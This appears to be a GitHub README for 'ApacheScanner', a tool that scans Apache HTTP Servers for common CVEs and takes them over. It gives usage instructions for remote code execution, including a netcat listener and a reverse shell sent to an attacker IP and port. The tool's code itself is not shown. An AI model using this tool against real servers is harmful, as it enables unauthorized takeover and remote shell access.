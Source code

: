 # ApacheScanner
Apache HTTP Server Scanner and takeover tool with all common CVE's of Apache HTTP Servers


run a netcat or whatever listener for the RCE 

To run this Script install the Required pip Modules and define your command by this: 

```python3 ApacheScanner.py -u http://serveriphere  --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` 

```
Usage: ApacheScanner.py [options]

Apache HTTP Server scanning and overtaking tool written by Yqno.

Options:
  -h, --help            Show this help message and exit
  -u URL, --url URL     The target URL of your Apache HTTP Server (default is http://localhost:80)
  -t TIMEOUT, --timeout TIMEOUT
                        The timeout of the request in seconds (default is 25)
  -p PORT, --port PORT  The port number of your Apache HTTP Server (default port is 80)
  -c COMMAND, --command COMMAND
                        The command to be executed on your Apache HTTP Server (default is ls -l)
  --rce                 Scan for remote code execution (default is False)
  --cmd CMD             Command to run if RCE is enabled (default is whoami)
  --lhost LHOST         Attacker IP for reverse shell (required if --rce is enabled)
  --lport LPORT         Attacker listening port for reverse shell (required if --rce is enabled)
 ```  

